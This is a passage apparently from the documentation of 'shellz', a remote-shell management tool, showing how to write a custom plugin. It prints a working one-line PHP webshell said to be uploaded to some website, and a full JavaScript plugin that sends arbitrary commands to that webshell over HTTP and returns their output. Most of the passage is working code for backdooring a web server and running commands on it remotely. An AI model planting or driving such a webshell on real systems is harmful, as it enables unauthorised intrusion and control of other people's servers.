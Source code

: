 As you probably noticed, the `host` field is the full URL of a very simple PHP webshell uploaded on some website:

```php
<?php system($_REQUEST["cmd"]); die; ?>
```

Also, the `type` field is set to `mycustomshell`, in this case `shellz` will try to load the file `~/.shellz/plugins/mycustomshell.js` and use it to create a session and execute a command. 

A `shellz` plugin must export the `Create`, `Exec` and `Close` functions, this is how `mycustomshell.js` looks like:

```js
var headers = {
    'User-Agent': 'imma-shellz-plugin'
};

/*
 * The Create callback is called whenever a new command has been queued
 * for execution and the session should be initiated, in this case we 
 * simply return the main shell object, but it might be used to connect
 * to the endpoint and store the socket on a more complex Object.
 */
function Create(sh) {
    log.Debug("Create(" + sh + ")");
    return sh;
}

/*
 * Exec is called for each command, the first argument is the object
 * returned from the Create callback, while the second is a string with the
 * command itself.
 */
function Exec(sh, cmd) {
    log.Debug("running " + cmd + " on " + sh.Host);
    /* 
     * OR
     *
     * var resp = http.Post(sh.Host, headers, {"cmd":cmd});
     */
    var resp = http.Get(sh.Host + "?cmd=" + cmd, headers)
    if( resp.Error ) {
        log.Error("error while running " + cmd + ": " + resp.Error);
        return resp.Error;
    }
    return resp.Raw;
}

/*
 * Used to finalize the state of the object (close sockets, etc).
 */
function Close(sh) {
    log.Debug("Close(" + sh + ")");
}
```
